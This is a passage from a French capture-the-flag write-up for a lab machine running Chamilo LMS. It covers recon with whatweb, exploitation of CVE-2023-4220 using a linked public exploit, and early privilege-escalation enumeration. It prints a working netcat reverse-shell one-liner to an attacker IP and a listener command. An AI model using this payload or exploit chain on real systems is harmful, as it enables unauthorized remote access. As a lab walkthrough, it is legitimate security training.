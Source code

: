 On tente de se connecter avec des simples creds: admin/admin
Mais nan ça n'abouti pas.

On pourrait par la suite tenter un brute force.

Je vais d'abord énumérer le vhosts pour voir si on peut réussir à choper une version de framework etc vulnérable.

```bash
➜  ~ whatweb -a3 http://lms.permx.htb:80/  
http://lms.permx.htb:80/ [200 OK] Apache[2.4.52], Bootstrap, Chamilo[1], Cookies[GotoCourse,ch_sid], Country[RESERVED][ZZ], HTML5, 
HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], HttpOnly[GotoCourse,ch_sid], IP[10.10.11.23], JQuery, MetaGenerator[Chamilo 1], Modernizr, PasswordField[password], PoweredBy[Chamilo], 
Script, Title[PermX - LMS - Portal], X-Powered-By[Chamilo 1], 
X-UA-Compatible[IE=edge]  
```

On peut voir PoweredBy Chamilo j'ai donc décidé de voir ce que c'était.
	->LMS (Learning Management System)
## Exploitation

Mais ce qui est super c'est qu'ici on se trouve en présence de Chamilo 1 comme le montre le whatweb, or on trouve une RCE sur les versions <= 1.11.24 (CVE-2023-4220)

J'ai trouvé un exploit: https://github.com/Ziad-Sakr/Chamilo-CVE-2023-4220-Exploit?tab=readme-ov-file

je crée mon fichier reverse-shell.php ou je mets un payload de RCE, car je n'ai pas réussi à directement faire un reverse shell.

ensuite avec pwncat je me mets en écoute:

```bash
➜  Bureau pwncat-cs -lp 9014
```

et j'envoie ce payload qui réussi à établir un reverse shell.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.4 9014 >/tmp/f
```

## Privesc

Je check en rapide les users dans le /home, j'y trouve un répertoire mtz.

```bash
(remote) www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload$ ls -la /home  
total 12  
drwxr-xr-x  3 root root 4096 Jan 20  2024 .  
drwxr-xr-x 18 root root 4096 Jul  1 13:05 ..  
drwxr-x---  6 mtz  mtz  4096 Sep  2 14:00 mtz
```

Je continue d'énumérer:

```bash
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload$ ss -tln  
State         Recv-Q        Send-Q               Local Address:Port          
LISTEN        0             80                       127.0.0.1:3306
LISTEN        0             4096                 127.0.0.53%lo:53
LISTEN        0             128                        0.0.0.0:22
LISTEN        0             128                           [::]:22
LISTEN        0             511                              *:80
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload$ ss -tl  
State        Recv-Q        Send-Q               Local Address:Port         
LISTEN       0             80                       127.0.0.1:mysql
LISTEN       0             4096                 127.0.0.53%lo:domain
LISTEN       0             128                        0.0.0.0:ssh
```